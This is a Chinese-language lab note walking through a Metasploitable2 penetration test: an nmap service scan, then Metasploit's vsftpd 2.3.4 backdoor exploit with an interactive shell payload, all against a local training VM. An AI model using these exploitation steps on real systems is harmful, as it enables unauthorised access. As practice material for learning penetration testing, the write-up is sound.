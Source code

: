```yaml
---
title: 【資訊安全】Metasploitable2 滲透測試實作(筆記)
date: 2022-11-23
tags:
  - ctf
---
```


## 先備知識

  * 知道如何使用 VMware 或 VirtualBox
  * Kali Linux 基本操作
  * 能夠讓 Kali 連線至 Metasploitable2 

## Metasploitable2

一種充滿漏洞的Linux系統，適合用於練習滲透測試。

可直接到 [Sourceforge](https://sourceforge.net/projects/metasploitable/) 上下載虛擬機檔。

## 偵查

1. 開啟 Metasploitable2，會先要求輸入帳號密碼，帳密都是 `msfadmin` (輸入密碼時不會顯示在螢幕上)。

2. 輸入 `ifconfig` 查看 IP 位址，假設為 `192.168.235.130`。

3. 打開 Kali Linux (IP為192.168.235.128)，終端輸入 `msfconsole` 進入 Metasploit。

![msfconsole](/images/metasploitable2/kali_linux_msfconsole.png)

4. 使用 nmap 掃描可以連的 port

```bash
msf6 > nmap -sV 192.168.235.130
```

![nmap](/images/metasploitable2/kali_linux_msf_nmap.png)

可以看到有一大堆 port 是開著的

## 滲透

1. 看看 vsftpd 有沒有洞，在 msf 中輸入 `search vsftpd`，可以看到有一個 exploit 可以使用

![search vsftpd](/images/metasploitable2/kali_linux_msf_vsftpd.png)

2. 使用這個 exploit，用 `show options` 可以看到這個 exploit 需要的參數，然後用 `set 參數 值` 設定一些參數。

```bash
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.235.130
```

![use exploit](/images/metasploitable2/kali_linux_msf_exploit.png)

3. 設定 payload，即欲發送的惡意程式，我們使用 `payload/cmd/unix/interact`

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set payload cmd/unix/interact
```

4. 輸入 `exploit` 開始攻擊

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```

如果成功，可以試試 whoami、uname -a 之類的指令

![exploit](/images/metasploitable2/kali_linux_msf_exploit1.png)

---

Metasploitable2 還有很多其他的洞，之後有空來戳戳看或是玩 Metasploitable3。